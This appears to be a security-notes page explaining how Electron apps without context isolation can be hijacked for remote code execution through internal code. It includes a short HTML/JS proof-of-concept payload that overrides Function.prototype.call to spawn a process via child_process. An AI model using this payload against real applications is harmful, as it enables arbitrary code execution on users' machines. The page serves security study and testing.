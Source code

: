 # Electron contextIsolation RCE via Electron internal code


## Example 1

Example from [[https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41|https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=41]]

"exit" event listener is always set by the internal code when de page loading is started. This event is emitted just before navigation:

```javascript
process.on("exit", function () {
  for (let p in cachedArchives) {
    if (!hasProp.call(cachedArchives, p)) continue
    cachedArchives[p].destroy()
  }
})
```
```

[[https://github.com/electron/electron/blob/664c184fcb98bb5b4b6b569553e7f7339d3ba4c5/lib/common/asar.js#L30-L36]]

![[<../../../images/image (1070).png>|]]

https://github.com/nodejs/node/blob/8a44289089a08b7b19fa3c4651b5f1f5d1edd71b/bin/events.js#L156-L231 -- No longer exists

Then it goes here:

![[<../../../images/image (793).png>|]]

Where "self" is Node's process object:

![[<../../../images/image (700).png>|]]

The process object has a references to "require" function:

```
process.mainModule.require
```
```
As the handler.call is going to receive the process object we can overwrite it to execute arbitrary code:

```html
<script>
  Function.prototype.call = function (process) {
    process.mainModule.require("child_process").execSync("calc")
  }
  location.reload() //Trigger the "exit" event
</script>
```
```
## Example 2

Get **require object from prototype pollution**. From [[https://www.youtube.com/watch?v=Tzo8ucHA5xw&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq&index=81|https://www.youtube.com/watch?v=Tzo8ucHA5xw\&list=PLH15HpR5qRsVKcKwvIl-AzGfRqKyx--zq\&index=81]]

Leak:

![[../../../images/image (279).png|]]


Exploit:

![[../../../images/image (89).png|]]



